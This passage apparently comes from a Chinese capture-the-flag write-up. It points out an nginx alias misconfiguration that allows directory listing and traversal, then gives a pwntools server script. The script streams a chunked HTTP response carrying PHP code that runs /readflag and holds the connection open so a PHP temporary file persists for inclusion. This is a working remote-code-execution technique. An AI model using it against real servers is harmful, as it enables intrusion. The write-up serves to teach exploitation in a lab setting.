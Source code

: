 Configuration Error

其中配置文件有一个比较明显的配置错误：

```
location /.well-known {
  autoindex on;
  alias /var/www/html/well-known/;
}
```

开启了列目录并且我们可以遍历到上层文件夹。

我们只需要关心 flags 的值就好了，我们只需要确定 flags 的值非零即可，根据前面的跟进我们易知 flags 的在这里非零，所以这里就调用了php_stream_fopen_tmpfile函数创建了临时文件。

于是我们可以做一个简单的验证，在本机上跑源代码，并用 pwntools 起一个服务用来发送一个大文件

```python
from pwn import *
import requests
import re
import threading
import time


def send_chunk(l, data):
    l.send('''{}\r
{}\r
'''.format(hex(len(data))[2:], data))

while(True):
    l = listen(9999)
    l.wait_for_connection()

    data1 = ''.ljust(1024 * 8, 'X')
    data2 = '<?php system("/readflag"); exit(); /*'.ljust(1024 * 8, 'b')
    data3 = 'c*/'.rjust(1024 * 8, 'c')

    l.recvuntil('\r\n\r\n')
    l.send('''HTTP/1.1 200 OK\r
Content-Type: exploit/revxakep\r
Connection: close\r
Transfer-Encoding: chunked\r
\r
''')

    send_chunk(l, data1)

    print('waiting...')
    print('sending php code...')

    send_chunk(l, data2)

    sleep(3)

    send_chunk(l, data3)

    l.send('''0\r
\r
\r
''')
    l.close()
```
